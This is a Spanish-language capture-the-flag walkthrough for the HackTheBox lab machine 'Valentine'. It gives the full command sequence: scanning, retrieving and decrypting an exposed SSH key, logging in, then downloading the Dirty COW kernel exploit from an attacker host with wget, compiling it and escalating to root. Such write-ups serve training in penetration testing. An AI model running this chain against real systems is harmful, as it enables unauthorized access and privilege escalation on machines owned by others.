 - Maquina: Linux
- Level: Easy
- IP: 10.10.10.179

## Herramientas a utilizar:

- nmap
- gobuster
- searchsploit 
```
nmap -sC -sV -n -o scan_Valentine.txt 10.10.10.79
```

```
gobuster dir -u http://10.10.10.79/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```

>Encontraremos el directorio /dev el cual contiene dos archivo.
hyper_key
note.txt

hyper_key es un archivo que esta en Hexadecimal por lo que haremos lo siguiente:

```
wget https://10.10.10.79/dev/hype_key --no-check-certificate
cat hype_key | xxd -r -p 
cat hype_key | xxd -r -p > hype_key_encrypted
openssl rsa -in hype_key_encrypted -out hype_key_decrypted
```
Pedira un password y le pondremos el siguiente: heartbleedbelievethehype

Ahora ya tenemos como acceder via ssh

```
ssh -i hype_key_decrypted hype@10.10.10.79
```

Ahora ya estamos como hype en valentine, solo seria leer user flag con

```
cat Desktop/user.txt
```
o tambien podemos hacer una busqueda con
```
find . -name user.txt -exec wc -c {} \; -exec cat {} \;
```
Ahora a buscar el root.txt.
```
uname -a
```
```
searchsploit dirty
```
En la busqueda vamos a probar el siguiente:
`Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE_POKEDATA' Race Conditi | linux/local/40839.c`
```
searchsploit -m exploits/linux/local/40839.c
```
Cambiamos de nombre el exploit
```
mv 40839.c dc.c
python3 -m http.server 80
```

En otra terminal debemos subir dicho exploit a hype.
```
ssh -i hype_key_decrypted hype@10.10.10.79
```

Ahora vamos al directorio /dev/shm/
```
wget http://10.10.14.17/dc.c
```
Copilamos el archivo y hacemos un output a c
```
gcc -pthread dc.c -o c -lcrypt
```
Ejecutamos c
```
./c
```
Pedirar un password > ponemos cualquiera, luego habra un archivo llamado firefart
```
su firefart 
```
Pedira el password que ya hemos puesto anteriormente.
```
id
```
y listo ahora tenemos privilegios de root.
Solo debemos hacer `cat /root/root.txt` y tenemos nuestra flag.
